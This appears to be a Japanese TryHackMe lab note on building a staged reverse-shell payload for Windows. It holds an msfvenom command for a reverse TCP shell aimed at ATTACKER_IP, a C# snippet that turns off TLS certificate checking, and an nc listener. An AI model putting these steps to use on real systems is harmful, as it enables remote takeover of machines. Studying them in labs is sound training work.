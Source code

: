 1. ステージャーをかく
`StagedPayload.cs`

2. ステージャーのコンパイル

windows上で行った。
```
csc StagedPayload.cs
```

3. ペイロードの作成
```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```
最後の`-b`は、`\x00`(NULLバイト)、`\x0a`（改行)、`\x0d`（キャリッジリターン）を含まないように指定している。ヘルコードがネットワーク介して送信されるとき、問題を引き起こす可能性があるから。

4. オレオレ証明書の作成
```
$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```
localhost.pemが作成される。

5. webサーバーの起動

THMのサンプルコードは、`wrap_socket`関数を使用しており、Python3.10以降では非推奨かつ削除されるので、書き直した。`hoge.py`

```
$ python hoge.py
```
これで、`https://localhost` にアクセスができる。ブラウザからアクセスすると自己署名の警告がでるが、ステージャーでは、以下の部分で警告が出ないように上書きしているので問題ない。
```
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
```

6. リッスンポートの起動
```
$ nc -lvp 7474
```

7. 実行

これで、対象のマシーン上に、`StagedPayload.exe`をアップロードすれば、実行Sれて、待ち受けている7474ポートにリバースシェルが接続される。
